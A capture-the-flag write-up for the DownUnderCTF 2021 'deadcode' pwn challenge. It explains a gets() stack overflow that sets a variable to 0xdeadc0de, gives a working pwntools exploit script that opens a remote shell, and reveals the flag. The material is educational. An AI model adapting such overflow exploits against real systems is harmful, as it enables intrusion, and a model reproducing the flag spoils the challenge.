

# deadcode

## Category
Pwn

## Points
Dynamically allocated starting at 500, ending at 100

## Description
I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31916`

Files: `deadcode`

## Keywords
pwntools, Python, Buffer Overflow, Ghidra

## Notes
The executable (`deadcode`) was opened in Ghidra, and this showed the `main()` function as:



Here we can see the input uses `gets()` to fill the `local_28` array, which is of size 24 chars. We can also see that `local_10` declared directly after the array.

This means that we can overflow the `local_28` array and overwrite the `local_10` variable.

Later, we can see that `local_10` needs to be `0xdeadc0de` to give us a shell.

*pwntools* can help here. A Python script we created that does what we want is:
```python
from pwn import *

context.update(arch='x86_64', os='linux')

p = remote('pwn-2021.duc.tf', 31916)

payload = cyclic(24) + p32(0xdeadc0de)
p.sendline(payload)

p.interactive()
```

When run, this gives a shell, and enables us to `cat` a file named *flag.txt* on the server:
```
$ python3 get_flag.py
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

What features would you like to see in my app?


Maybe this code isn't so dead...
$ ls
flag.txt
pwn
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}$
$
```

